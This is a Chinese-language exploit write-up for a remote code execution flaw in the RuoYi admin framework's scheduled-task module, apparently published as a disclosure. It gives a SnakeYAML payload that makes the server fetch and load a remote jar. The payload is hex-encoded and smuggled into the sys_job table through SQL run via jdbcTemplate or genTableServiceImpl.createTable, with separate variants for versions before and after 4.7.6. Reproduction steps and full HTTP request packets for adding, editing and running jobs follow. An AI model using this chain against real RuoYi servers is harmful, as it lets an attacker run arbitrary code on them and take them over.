

# 若依定时任务BE Rce

既然被公开了，就直接公开叭

## 0x00 poc 生成

利用方式同原来的方法，参考 https://xz.aliyun.com/t/10687

以 snakeyaml 为例

https://github.com/artsploit/yaml-payload

payload加密为 hex

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:1234/yaml-payload.jar"]]]]')
```

## 0x01 复现

1. 创建任意定时任务A，获取任务编号

2. 再创建一个新的定时任务B并输入 payload，修改 job_id 为1中创建的编号

```java
// 4.7.5 之前
jdbcTemplate("update sys_job set 
invoke_target=0x6f72672e79616d6c2e736e616b6579616d6c2e59616d6c2e6c6f6164282221216a617661782e7363726970742e536372697074456e67696e654d616e616765725b21216a6176612e6e65742e55524c436c6173734c6f616465725b5b21216a6176612e6e65742e55524c205b22687474703a2f2f3132372e302e302e313a313233342f79616d6c2d7061796c6f61642e6a6172225d5d5d5d2229 where job_id=100")

// 4.7.6 及之后
genTableServiceImpl.createTable("update sys_job set 
invoke_target=0x6f72672e79616d6c2e736e616b6579616d6c2e59616d6c2e6c6f6164282721216a617661782e7363726970742e536372697074456e67696e654d616e61676572205b21216a6176612e6e65742e55524c436c6173734c6f61646572205b5b21216a6176612e6e65742e55524c205b22687474703a2f2f3132372e302e302e313a313233342f79616d6c2d7061796c6f61642e6a6172225d5d5d5d2729 where job_id=100")
```

3. 执行定时任务B
4. 执行定时任务A



---------

记录相关请求包

添加任意定时任务

```http
POST /monitor/job/add HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 154
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/monitor/job/add
Cookie: JSESSIONID=fa7a4777-3d08-47b0-8006-4bad48358eb0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

createBy=admin&jobName=test&jobGroup=DEFAULT&invokeTarget=ryTask.ryParams('ry')&cronExpression=*+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=0&remark=
```

获取定时任务列表

```http
POST /monitor/job/list HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 84
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/monitor/job
Cookie: JSESSIONID=fa7a4777-3d08-47b0-8006-4bad48358eb0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

pageSize=10&pageNum=1&orderByColumn=createTime&isAsc=desc&jobName=&jobGroup=&status=
```

修改定时任务

```http
POST /monitor/job/edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 550
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/monitor/job/edit/101
Cookie: JSESSIONID=fa7a4777-3d08-47b0-8006-4bad48358eb0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

jobId=101&updateBy=admin&jobName=rce&jobGroup=DEFAULT&invokeTarget=genTableServiceImpl.createTable(%22update+sys_job+set++invoke_target%3D0x6f72672e79616d6c2e736e616b6579616d6c2e59616d6c2e6c6f6164282721216a617661782e7363726970742e536372697074456e67696e654d616e61676572205b21216a6176612e6e65742e55524c436c6173734c6f61646572205b5b21216a6176612e6e65742e55524c205b22687474703a2f2f3132372e302e302e313a313233342f79616d6c2d7061796c6f61642e6a6172225d5d5d5d2729+where+job_id%3D100%22)&cronExpression=*+*+*+*+*+%3F&misfirePolicy=1&concurrent=1&status=1&remark=
```

执行

```http
POST /monitor/job/run HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 9
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/monitor/job
Cookie: JSESSIONID=fa7a4777-3d08-47b0-8006-4bad48358eb0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

jobId=100
```

